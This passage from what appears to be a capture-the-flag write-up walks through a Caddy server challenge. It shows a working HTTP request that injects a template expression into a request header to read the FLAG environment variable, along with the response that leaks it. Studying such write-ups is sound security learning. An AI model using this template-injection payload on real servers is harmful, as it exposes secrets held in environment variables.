 It worked! So we can have caddy directives but referencing the flag via $ doesn't. Let's see what directives is caddy specifically adding in [their source code for templates](https://github.com/caddyserver/caddy/blob/220cd1c2bcecc07bcf6a0141069538c1b1109907/modules/caddyhttp/templates/templates.go#L40). There it is:

```
// ##### `env`
//
// Gets an environment variable.
//
```

our flag is passed in as an environment variable via the dockerfile:

```Dockerfile
FROM caddy:2.9.1-alpine
COPY Caddyfile /etc/caddy/Caddyfile

ENV FLAG='kalmar{test}'
```

Let's try to include the `env` directive instead of `cat`:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: {{ env `FLAG` }}

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 163
Date: Sat, 15 Mar 2025 13:23:47 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "2"
  ],
  "My-Header": [
    "kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}"
  ]
}
```

and we got the flag!

> kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}
